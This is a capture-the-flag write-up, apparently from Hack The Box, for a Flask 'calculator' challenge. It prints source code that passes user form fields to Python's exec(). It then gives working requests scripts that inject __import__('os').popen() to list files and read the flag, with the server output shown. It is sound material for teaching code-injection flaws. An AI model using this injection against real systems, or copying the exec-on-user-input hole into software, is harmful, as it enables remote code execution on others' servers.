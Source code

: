 # baby interdimensional internet
## Challenge description
aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez

## Looking around
When we visit the website in a browser, we see this.

![website](./site.png)

There is a number that seems to change everytime we refresh the page. First thing we are going to do is look at the source.

![website source](./source.png)

We can see there is a hint for a `/debug` page where we find the source for the challenge.

## Challenge source code

```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

## Methodology

Here we see a very simple `flask` webapp. We see we can perform a `GET` and `POST` request on `/` endpoint and `GET` on `/debug`. When we perform a `POST` on `/` we eventually hit this part of the code.

```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

In this part of the code we can influence how to `recipe` string is going to look like. This string is later going to be used as a parameter for method `calc()`.

```python
calc(recipe)
```

This method provides an attack vector that we are going to exploit.

```python
def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass
```

This is a very simple exploit. Here we can see, method `exec()` directly executes python code that we provided in `recipe` variable. This is going to win us a challenge.

## Standard behaviour
When we visit the page we are implicitly using the `GET` request on `/`. Therefore we don't visit the if branch with the `POST` but we visit this part of the code.

```python
ingredient = ''.join(choice(lowercase) for _ in range(10))

recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
```

Here `recipe` is assembled automatically using random values. Example.

```python
'zurkssxoqj = 38-65'
```

This gets sent to the `calc()` method. Here the `exec()` would look like this.

```python
try: exec('zurkssxoqj = 38-65', garage)
```

This gets executed internally and we can see there is a `garage` parameter which is a global variable therefore accessable in the whole script. `garage` is a dictionary that holds all the references to variables in the executed context. In our case, it would hold an item (beside other implicit values).

```python
{'zurkssxoqj' = -27}
```

Back to the `federation()` method.

```python
if garage.get(ingredient, ''):
	return render_template('index.html', calculations=garage[ingredient])
```

Here we extract the value from the `ingredient` variable and send it to the template to be rendered as the number we see on the screen. After the substitution the code would look like this.

```python
if garage.get('zurkssxoqj', ''):
	return render_template('index.html', calculations=garage['zurkssxoqj'])
```

## Exploit
We can send a `POST` request to craft our own recipe. When we do that we are accessing this part of the code.

```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

From above we can see, that the webapp extracts values of variables `ingredient` and `measurements` from request body. We can try to send a POST request containing those variables in the body, and potentialy assemble our malicious `recipe`.

As an example we can start lightly to confirm we can control the `recipe`. An example `POST` body would look like this.

```json
{
    'ingredient': 'our_var',
    'measurements': '1337'
}
```

The `recipe` would look like this.

```python
'our_var = 1337'
```

We are going to use python `requests` module to send our request.

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '1337'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

In the response we see our number 1337, meaning we can successfully control the `exec()` statement.

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> 1337 </h1>
```

As for the exploit, we can import the `os` module and have `RCE` on the server.

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("ls").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

The `exec` would look like this.

```python
try: exec('our_var = __import__("os").popen("ls").read()', garage)
```

We are going to list the items in webapp `cwd`.

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> app.py\nflag\ntemplates\n </h1>
```

We see there is a file named flag which contains the challenge secret.

## Final exploit code

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("cat flag").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3} </h1>
```

## Flag
**HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}**